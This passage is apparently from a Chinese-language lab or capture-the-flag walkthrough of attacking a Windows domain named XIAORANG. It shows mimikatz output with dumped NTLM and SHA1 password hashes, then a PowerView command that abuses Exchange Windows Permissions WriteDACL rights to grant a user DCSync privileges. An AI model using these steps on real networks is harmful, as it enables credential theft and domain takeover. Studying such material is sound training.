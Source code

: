 [![](assets/1710899037-a7c1c2740b985c2939eb81d1e5d23de0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205102-dd18b32c-d56e-1.png)

```plain
* Username : XIAORANG-EXC01$
 * Domain   : XIAORANG
 * NTLM     : 88f4cf50b8ecdb0cf5bfe4e24768c3e1
 * SHA1     : c6f3c7b125491ffad07945f560d1ce8bb1e334dc

 * Username : Zhangtong
 * Domain   : XIAORANG
 * NTLM     : 22c7f81993e96ac83ac2f3f1903de8b4
 * SHA1     : 4d205f752e28b0a13e7a2da2a956d46cb9d9e01e
 * DPAPI    : ed14c3c4ef895b1d11b04fb4e56bb83b
```

这里我们要进行分析域内账户关系，发现账户是隶属于 `Exchange Windows Permissions` 这个组中，而这个组具有 write 域内 acl 权限，可以通过 `mimikatz` 拿到的域内用户 `Zhangtong的dcsync属性`，接下来我们要思考如何去获取`管理员hash`

### dcsync 操作获取域用户

这里也可以启动 `BloodHound` 来分析，太累了留着后面弄  
通过 `Write DACL` 权限可以直接修改用户权限，以 `Zhangtong` 的身份给添加 DCSync 权限 \`

> powershell -command "cd C:/Users/test/Desktop/; Import-Module .\\powerview.ps1; Add-DomainObjectAcl -TargetIdentity 'DC=xiaorang,DC=lab' -PrincipalIde Zhangtong -Rights DCSync -Verbose"
